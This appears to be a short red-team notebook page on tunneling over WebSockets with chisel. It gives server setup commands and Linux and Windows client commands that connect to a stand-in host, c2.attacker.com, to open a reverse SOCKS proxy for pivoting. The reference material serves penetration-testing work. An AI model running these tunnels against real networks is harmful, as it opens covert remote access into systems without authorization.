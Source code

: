 ```yaml
---
title: WebSockets Tunnel
---
```


[[notes/tunneling/index]] over the [[notes/network/websocket]] protocol.

Start an unauthenticated [[notes/tools/chisel]] server on Linux.

~~~ bash
chisel server --port 80 --socks5 --reverse --auth proxy:"$(uuidgen -r | tee /dev/stderr)"
~~~

Alternatively start a server with authentication where the user `proxy` can bind only to unprivileged ports on localhost.

~~~ bash
cat << 'EOF' > ./users.json
{
  "proxy:passw0rd": [
    "^R:127\\.0\\.0\\.1:[0-9]{4,5}$"
  ]
}
EOF
chisel server --port 80 --socks5 --reverse --authfile ./users.json
~~~

Connect with the client from Linux to establish a reverse [[notes/pivoting/socks-proxy]].

~~~ bash
./chisel client --fingerprint $fingerprint --auth proxy:'passw0rd' http://c2.attacker.com R:127.0.0.1:1080:socks
~~~

Connect with the client from Windows to forward local port 53/udp to port 5300 on the server.

~~~ bat
.\chisel.exe client --fingerprint %fingerprint% --auth proxy:"passw0rd" http://c2.attacker.com R:127.0.0.1:1080:socks 53:127.0.0.1:5300/udp
~~~

> **Note:**
> In at least one instance a HTTP proxy blocked WebSocket connections.
> This can be verified on [piesocket.com](https://www.piesocket.com/websocket-tester).

Untested tools:

- [github.com/meteorite/chisel](https://github.com/Meteorite/chisel/tree/feature-socks-udp-associate), fork with SOCKS5 UDP support
- [wstunnel](https://github.com/erebe/wstunnel), chisel alternative written in Haskell
